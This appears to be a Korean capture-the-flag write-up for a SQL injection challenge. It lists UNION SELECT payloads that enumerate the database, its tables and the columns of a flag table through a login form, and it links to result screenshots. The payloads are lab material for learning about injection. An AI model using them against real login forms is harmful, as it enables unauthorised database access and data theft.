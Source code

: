 ### 문제 설명
```
로그인 시 계정의 정보가 출력되는 웹 서비스입니다.
SQL INJECTION 취약점을 통해 플래그를 획득하세요. 문제에서 주어진 init.sql 파일의 테
이블명과 컬럼명은 실제 이름과 다릅니다.
```

### db명 불러들이기
```
' UNION SELECT (SELECT DATABASE()), 2, 3, 4-- -
```


### 테이블명 불러들이기
```
' UNION SELECT (SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'secret_db' LIMIT 0,1), 2, 3, 4-- -
' UNION SELECT (SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'secret_db' LIMIT 1,1), 2, 3, 4-- -
```

![alt text](image-3.png)
![alt text](image-2.png)

![alt text](image-4.png)
![alt text](image-5.png)

![alt text](image-6.png)
![alt text](image-7.png)


### 아래는 컬럼명 불러들이기
```
' UNION SELECT (SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'onlyflag' AND table_schema = 'secret_db' LIMIT 0,1), 2, 3, 4-- -
' UNION SELECT (SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'onlyflag' AND table_schema = 'secret_db' LIMIT 1,1), 2, 3, 4-- -
' UNION SELECT (SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'onlyflag' AND table_schema = 'secret_db' LIMIT 2,1), 2, 3, 4-- -
' UNION SELECT (SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'onlyflag' AND table_schema = 'secret_db' LIMIT 3,1), 2, 3, 4-- -
' UNION SELECT (SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'onlyflag' AND table_schema = 'secret_db' LIMIT 4,1), 2, 3, 4-- -
' UNION SELECT (SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'onlyflag' AND table_schema = 'secret_db' LIMIT 5,1), 2, 3, 4-- -


idx	sname	svalue	sflag	sclose
```

![alt text](image-8.png)
![alt text](image-9.png)